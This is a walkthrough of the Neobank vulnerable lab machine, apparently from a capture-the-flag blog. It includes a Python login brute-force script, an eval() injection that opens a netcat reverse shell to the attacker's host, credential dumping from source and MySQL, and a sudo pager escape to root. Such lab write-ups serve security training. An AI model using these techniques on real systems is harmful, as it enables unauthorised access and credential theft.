```yaml
---
layout: post
title:  "Neobank - Walkthrough"
date:   2020-12-28 10:10:05 +0300
categories: [vulnhub,hackmyvm,walkthrough,myvms]
pin: false
tags: [enumeration,bruteforce,google authenticator,eval,sudo]
image: /images/neobank.jpg
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/neobank-1,642/`

- Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Neobank`

- Difficulty : Medium

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/kxbu7R75AxQ" frameborder="0" allowfullscreen></iframe>

## Directory Scan

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ gobuster dir -k -u http://10.0.2.121:5000/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
  /login
  /logout
  /otp
  /qr
  /withdraw
  /email_list
{% endhighlight %}

## Retreive emails

- Under the `/email_list` you can retrieve the emails

```sh
zeus@neobank.vln
hera@neobank.vln
apollo@neobank.vln
athena@neobank.vln
poseidon@neobank.vln
ares@neobank.vln
artemis@neobank.vln
demeter@neobank.vln
aphrodite@neobank.vln
dionysos@neobank.vln
hermes@neobank.vln
hephaistos@neobank.vln
```

## Brute force

- Creating the `pins` wordlist using `rockyou.txt`

```
cat /usr/share/wordlists/rockyou.txt | grep "^[0-9]" > pins.txt
```

- bruteforce script

{% highlight python %}
import requests
import sys
url = 'http://10.0.2.121:5000/login'
with open('/home/alienum/Desktop/emails.txt') as users:
  for u in users:
    with open('/home/alienum/Desktop/pins.txt') as pins:
       for p in pins:
          user = {"email":u.strip(),"pin":p.strip()}
          r =  requests.post(url,data = user)
          if len(r.cookies) != 0:
             print('~~~~~~~~~~~~~~~~~~~')
             print('Credentials found!!')
             print('~~~~~~~~~~~~~~~~~~~')
             print('[+] Username : '+ u.strip())
             print('[+] Password : '+ p.strip())
             sys.exit()
{% endhighlight %}

- Run it
```
┌──(alienum㉿kali)-[~]
└─$ python3 neobank-bf.py
[+] Username : zeus@neobank.vln
[+] Password : 2*****
```

## OTP google authenticator

- Scan the qrcode and insert the otp code

## Exploit eval() python function

```
__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')
```

#### MySQL enumeration find banker credentials

{% highlight sh %}
  cat /var/www/html/main.py
  banker:neobank1
  mysql -u banker -pneobank1
  use bank;
  select * from system;
  banker:adv1se.me
{% endhighlight %}

## GTFObins

- sudo -l

{% highlight sh %}
  sudo apt-get changelog apt
  !/bin/sh
{% endhighlight %}

- This vm created by me, i enjoyed the process
